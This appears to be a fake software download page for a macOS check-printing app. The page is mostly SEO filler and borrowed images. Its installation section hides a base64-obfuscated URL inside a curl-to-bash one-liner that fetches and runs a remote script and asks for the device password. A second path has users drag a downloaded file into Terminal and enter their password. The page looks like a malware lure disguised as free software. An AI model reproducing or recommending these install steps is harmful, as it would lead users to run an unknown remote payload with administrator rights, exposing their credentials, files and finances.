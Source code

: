 # Bank Check Printer — Download For Mac OS 🖨️
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple112/v4/ad/a3/db/ada3db93-1db1-4c0f-cc0d-783f83edc2c3/AppIcon-0-0-85-220-0-0-0-0-4-0-0-0-2x-P3-0-0-0-0-0.png/1200x630bb.png)

Effortlessly print professional bank checks on your Mac with *Bank Check Printer*. Follow the step-by-step instructions below to install this powerful tool for free and streamline your financial tasks.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/bankcheckprinter)

If the download button above doesn't work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Bank Check Printer For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🖨️ **Professional Check Printing**: Create and print bank-compliant checks directly from your Mac.
- ⚙️ **Customizable Templates**: Personalize check designs with your branding and details.
- 💸 **Multi-Account Support**: Manage and print checks for multiple bank accounts seamlessly.
- 🔒 **Secure Data Handling**: Keep your financial information safe with encrypted storage.
- 📊 **Transaction Tracking**: Organize and track payment history within the app.
- 🖥️ **User-Friendly Interface**: Navigate and print checks with an intuitive macOS-native design.

---

## About Bank Check Printer

*Bank Check Printer* is a dedicated macOS application designed to simplify the process of creating and printing professional bank checks. Whether you're a small business owner, freelancer, or managing personal finances, this software offers a reliable solution for generating checks that meet banking standards. With its intuitive interface and robust features, *Bank Check Printer* ensures you can produce checks quickly and securely, eliminating the need for manual check-writing or expensive third-party services. Key features include customizable templates, multi-account support, and secure data handling, making it a must-have tool for Mac users.

The software is optimized for macOS, providing a seamless experience with native integration into your system. By leveraging *Bank Check Printer*, you can save time and reduce errors in financial transactions. The application supports various check formats, ensuring compatibility with most banks. Its built-in encryption ensures that sensitive financial data, such as account numbers and payee details, remains protected. This makes it an ideal choice for users prioritizing security and efficiency in their financial workflows.

For those seeking a free download, *Bank Check Printer* is accessible without hidden costs or subscriptions. The installation process is straightforward, whether you opt for the .dmg file or the terminal command method. The software is regularly updated to maintain compatibility with the latest macOS versions, ensuring a smooth experience across devices. Its lightweight design means it won't slow down your Mac, even during intensive tasks like bulk check printing.

The program also includes transaction tracking, allowing you to maintain a clear record of all printed checks. This feature is particularly useful for businesses that need to monitor expenses or reconcile accounts. By integrating with your existing financial workflows, *Bank Check Printer* becomes a versatile tool for both personal and professional use. Its ability to handle multiple accounts simultaneously makes it a standout choice for users managing diverse financial portfolios.

### Why Choose Bank Check Printer?

Compared to other check-printing solutions, *Bank Check Printer* offers unmatched simplicity and macOS optimization. Its free availability eliminates the barrier of costly licenses, making it accessible to all Mac users. The software's customizable templates allow for professional branding, while its secure data handling ensures peace of mind. With a focus on user experience, regular updates, and compatibility with standard check formats, *Bank Check Printer* is the go-to solution for efficient and secure check printing on macOS.

---

## 🖼 Preview

![Main Interface](https://pages.am-usercontent.com/images/6a7a119954a44e3ed6de59acaac24b7042548e3b/image_upload_a229c0c14c514e52a84492d7ee525549.jpeg)  
*Clean and intuitive interface for creating checks.*

![Template Customization](https://m.media-amazon.com/images/I/71A2Fy20mOL._UF1000,1000_QL80_.jpg)  
*Customize check designs with your branding.*

---

## 🔍 Tags
bank check printer, check printing software, free check printer mac, mac check printing, bank check software, print checks mac, macos check printer, secure check printing, check design software, free bank check app, bank check printer download, bank check printer free, bank check printer download free, bank check printer free download
